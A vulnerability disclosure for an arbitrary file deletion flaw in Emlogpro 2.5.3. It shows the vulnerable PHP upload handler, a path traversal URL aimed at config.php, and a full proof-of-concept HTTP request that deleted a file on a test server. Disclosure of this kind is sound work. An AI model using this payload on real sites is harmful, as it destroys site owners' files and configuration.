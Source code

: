 

## Emlogpro 2.5.3 Arbitrary File Deletion Vulnerability

EMLOG is a lightweight open-source blogging and CMS building system that is fast, resource-efficient, and easy to use, making it suitable for websites of various sizes.

A serious vulnerability exists in the latest version 2.5.3 of Emlogpro, where the file `content\plugins\tpl_options\actions\tpl.php` has path traversal and parameter control, allowing arbitrary file deletion.

### Solution Recommendation
It is recommended to update your current system or software to the latest version to fix this vulnerability.

### Vulnerability Analysis
The vulnerable file `content\plugins\tpl_options\actions\tpl.php` is as follows:
```php
<?php
/*
 * Author: Vaimibao-曦颜XY
 * Description: Template setting plugin AJAX handler.
*/

require_once '../../../../init.php';

if (!User::isAdmin()) {
    echo 'Insufficient permissions!';
    exit;
}

// Handle AJAX action
$action = Input::postStrVar('action', '');
if (!isset($action)) {
    echo 'Operation failed, please refresh the page!';
    exit;
}

// Handle AJAX request
if ($action === 'tpl_upload') {
    $origin_image = Input::postStrVar('origin_image', '');
    $ret = uploadCropImg();
    $file_path = $ret['file_info']['file_path'];
    $abs_file_path = '';
    $abs_file_path = strstr($file_path, 'content/uploadfile/');
    if ($abs_file_path === false) {
        echo '{"code":"error","data":"File upload failed"}';
        exit;
    }
    $abs_file_path = BLOG_URL . $abs_file_path;

    // Delete old image
    if (!empty(trim($origin_image)) && strpos($origin_image, 'uploadfile') !== false) {
        $path = '../../../../' . str_replace(BLOG_URL, '', $origin_image);
        if (file_exists($path)) {
            unlink($path);
        }
    }

    if (empty($ret['success'])) {
        echo '{"code":"error","data":"' . $ret['message'] . '"}';
        exit;
    }

    if ($file_path) {
        echo '{"code":"success","data":"' . $abs_file_path . '"}';
        exit;
    }
}
```
The main function of this code is to upload new images and delete old ones.

We can control the `origin_image`, which refers to the old image path. The final `unlink` path is constructed with the following condition:
```r
if (!empty(trim($origin_image)) && strpos($origin_image, 'uploadfile') !== false)
```
The path is then concatenated with:
```r
$path = '../../../../' . str_replace(BLOG_URL, '', $origin_image);
```
So, we can use path traversal to delete arbitrary files, such as `config.php`:
```r
http://localhost/content/uploadfile/../../config.php
```

### Attacking the Server

First, create a `file.txt` in the app directory of the container (which will be deleted later using the vulnerability).
![png](./public/1.png)

Log in as an administrator.
Click on Appearance -> Template -> Click on the Header Settings of the Default Template -> Upload any image.
![png](./public/2.png)

Intercept the request using Burp Suite and change the `origin_image` to the exploit URL:
```r
http://124.220.37.173:8000/content/uploadfile/../../file.txt
```

Complete HTTP request:
```http
POST /content/plugins/tpl_options/actions/tpl.php HTTP/1.1
Host: 124.220.37.173:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------38850914281727208123467510771
Content-Length: 6265
Origin: http://124.220.37.173:8000
Connection: close
Referer: http://124.220.37.173:8000/admin/template.php
Cookie: PHPSESSID=936897df99aabaaecb83730927efa59f; EM_AUTHCOOKIE_PY2fzSUL3tB6Rk8Jsjmurk2ZSBCifkIb=admin%7C1768579696%7Ca56b08b3f3d8179dc513fa7c20a40e18; EM_AUTHCOOKIE_IeOWYaYo8d73Rtrkcn8N8zzmOVhFZnsX=admin%7C1768582678%7Cb494dbed29cbe93144bec965430ca811

-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="action"

tpl_upload
-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="image"; filename="logo.png"
Content-Type: image/png

PNG


-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="origin_image"

http://124.220.37.173:8000/content/uploadfile/../../file.txt
-----------------------------38850914281727208123467510771--

```

Screenshot:
![png](./public/3.png)

After executing the request, we see that the file was successfully deleted:
![png](./public/4.png)

---

